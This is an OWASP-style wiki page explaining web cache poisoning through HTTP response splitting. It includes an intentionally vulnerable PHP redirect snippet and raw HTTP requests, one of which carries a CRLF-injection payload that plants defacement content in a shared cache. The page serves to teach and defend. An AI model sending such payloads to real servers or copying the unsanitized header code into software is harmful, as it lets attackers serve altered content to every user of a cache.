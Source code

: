 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: 
contributors: 
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **04/23/2009**

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

  - Finds the vulnerable service code, which allows them to fill the
    HTTP header field with many headers.
  - Forces the cache server to flush its actual cache content, which we
    want to be cached by the servers.
  - Sends a specially crafted request, which will be stored in cache.
  - Sends the next request. The previously injected content stored in
    cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement "wikilink").

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting "wikilink") and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carrige Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. <http://testsite.com/redir.php?page=http://other.testsite.com/>

And exemplary code of the redir.php:

    rezos@dojo ~/public_html $ cat redir.php
    <?php
    header ("Location: " . $_GET['page']);
    ?>

Crafting appropriate request: \[1\]

1 - remove page from the cache

    GET http://testsite.com/index.html HTTP/1.1
    Pragma: no-cache
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

HTTP header fields "Pragma: no-cache" or "Cache-Control: no-cache" will
remove the page from cache (if the page is stored in cache, obviously).

2 - using HTTP Response Splitting we force cache server to generate two
responses to one request

    GET http://testsite.com/redir.php?site=%0d%0aContent-
    Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
    Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
    nt-Length:%2020%0d%0aContent-
    Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

  - Last-Modified (checked byt the If-Modified-Since header)
  - ETag (checked by the If-None-Match header)

3 - sending request for the page, which we want to replace in the cache
of the server

    GET http://testsite.com/index.html HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

In theory, the cache server should match the second answer from the
request \#2 to the request \#3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal techique for
cache poisoning. It's due to cache server's different connection model
and request proccessing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from \[1\], which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks \[1\]
<http://packetstormsecurity.org/papers/general/whitepaper_httpresponse.pdf>
by Amit Klein, Director of Security and Research

## Related [Threat Agents](Threat_Agent "wikilink")

  - TBD

## Related [Attacks](Attacks "wikilink")

  - [HTTP Response Splitting](HTTP_Response_Splitting "wikilink")
  - [Cross-User_Defacement](Cross-User_Defacement "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [Input_Validation](Input_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

TBD

[need to update now that it's 2009](Category:FIXME "wikilink") [I wasn't
sure what the first 2 sentences were trying to say, can someone take a
look at these?](Category:FIXME "wikilink") [Category:Input
Validation](Category:Input_Validation "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:OWASP ASDR
Project](Category:OWASP_ASDR_Project "wikilink")